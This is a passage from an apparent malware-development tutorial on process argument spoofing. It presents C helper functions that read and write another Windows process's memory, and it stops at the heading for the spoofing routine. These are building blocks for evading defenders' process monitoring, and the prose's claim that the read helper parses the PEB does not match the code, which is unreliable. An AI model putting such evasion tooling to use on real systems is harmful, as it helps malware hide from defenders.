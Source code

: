 ### Helper Functions

The code in this module makes use of two helper functions that read and write from and to the target process.

#### ReadFromTargetProcess Function

The `ReadFromTargetProcess` helper function will return an allocated heap that contains the buffer read from the target process. First it will read the PEB structure and then use it to retrieve the `RTL_USER_PROCESS_PARAMETERS` structure. The `ReadFromTargetProcess` function is shown below.

```c
BOOL ReadFromTargetProcess(IN HANDLE hProcess, IN PVOID pAddress, OUT PVOID* ppReadBuffer, IN DWORD dwBufferSize) {

	SIZE_T	sNmbrOfBytesRead	= NULL;

	*ppReadBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);
	
	if (!ReadProcessMemory(hProcess, pAddress, *ppReadBuffer, dwBufferSize, &sNmbrOfBytesRead) || sNmbrOfBytesRead != dwBufferSize){
		printf("[!] ReadProcessMemory Failed With Error : %d \n", GetLastError());
		printf("[i] Bytes Read : %d Of %d \n", sNmbrOfBytesRead, dwBufferSize);
		return FALSE;
	}

	return TRUE;
}
```

#### WriteToTargetProcess Function

The `WriteToTargetProcess` helper function will pass the appropriate parameters to `WriteProcessMemory` and check the output. The `WriteToTargetProcess` function is shown below.

```c
BOOL WriteToTargetProcess(IN HANDLE hProcess, IN PVOID pAddressToWriteTo, IN PVOID pBuffer, IN DWORD dwBufferSize) {

	SIZE_T sNmbrOfBytesWritten	= NULL;

	if (!WriteProcessMemory(hProcess, pAddressToWriteTo, pBuffer, dwBufferSize, &sNmbrOfBytesWritten) || sNmbrOfBytesWritten != dwBufferSize) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		printf("[i] Bytes Written : %d Of %d \n", sNmbrOfBytesWritten, dwBufferSize);
		return FALSE;
	}

	return TRUE;
}
```

### Process Argument Spoofing Function
